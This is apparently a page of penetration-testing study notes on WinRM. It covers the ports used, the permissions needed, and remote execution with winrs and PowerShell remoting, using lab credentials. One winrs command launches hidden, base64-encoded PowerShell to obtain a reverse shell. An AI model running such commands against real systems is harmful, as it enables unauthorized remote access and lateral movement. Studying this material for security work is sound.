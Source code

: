 public:: true

- [WinRM](https://learn.microsoft.com/en-us/windows/win32/winrm/portal) is the Microsoft version of the [*Web Services-Management*](https://en.wikipedia.org/wiki/WS-Management) (WS-Management) open standard protocol.
- It establishes a session with a remote computer through the SOAP-based WS-Management protocol rather than a connection through [[DCOM]] , as [[WMI]] does. Data returned using the WS-Management protocol is formatted in XML instead of as objects.
- #+BEGIN_IMPORTANT
  It exchanges XML messages over HTTP and HTTPS. For that it uses **TCP port 5986 for encrypted HTTPS traffic** and **port 5985 for plain HTTP**.
  #+END_IMPORTANT
- You can use WinRM in different flavors: Powershell, [`winrs`](https://learn.microsoft.com/en-us/windows-server/administration/windows-commands/winrs) or [`evil-winrm`](https://github.com/Hackplayers/evil-winrm) in linux
- #+BEGIN_IMPORTANT
  In order to connect via WinRM, the target user needs to be part of the **Administrators** or **Remote Management Users** group on the target host.
  #+END_IMPORTANT
- Let's see how to use `winrs` to run the `whoami` command on a remote target logging as user *jen*.
	- ```cmd
	  winrs -r:files04 -u:jen -p:Nexus123!  "cmd /c whoami"
	  ```
	- As [already shown](((65a01d55-0fd2-4bbd-9251-edd80b50bbb9))) in [[WMI]], we can instead use it to get a reverse shell.
	  ```cmd
	  winrs -r:files04 -u:jen -p:Nexus123!  "powershell -nop -w hidden -e JABjAG...G4AdAAuAEMAbABvAH"
	  ```
- PowerShell also has WinRM built-in capabilities called [*PowerShell remoting*](https://learn.microsoft.com/en-us/powershell/scripting/learn/ps101/08-powershell-remoting?view=powershell-7.4). Let's see how to use it to access a remote shell.
	- First, we need to create a [PSCredential](https://learn.microsoft.com/en-us/powershell/scripting/learn/deep-dives/add-credentials-to-powershell-functions?view=powershell-7.2) object to store the domain user credentials that we use to access the remote target.
	  logseq.order-list-type:: number
		- ```powershell
		  $username = 'jen';
		  $password = 'Nexus123!';
		  $secureString = ConvertTo-SecureString $password -AsPlaintext -Force;
		  $credential = New-Object System.Management.Automation.PSCredential $username, $secureString;
		  ```
	- Next, we can point the [*New-PSSession*](https://learn.microsoft.com/en-us/powershell/module/microsoft.powershell.core/new-pssession?view=powershell-7.4) cmdlet to the target machine and pass the PSCredential object.
	  logseq.order-list-type:: number
		- ```powershell
		  New-PSSession -ComputerName 192.168.50.73 -Credential $credential
		  ```
	- At this point a new *PSSession* would be available and we can enter it to interact with the remote shell.
	  logseq.order-list-type:: number
		- ```powershell
		  Enter-PSSession 1
		  ```
- With [[Evil-WinRM]]
	- TODO
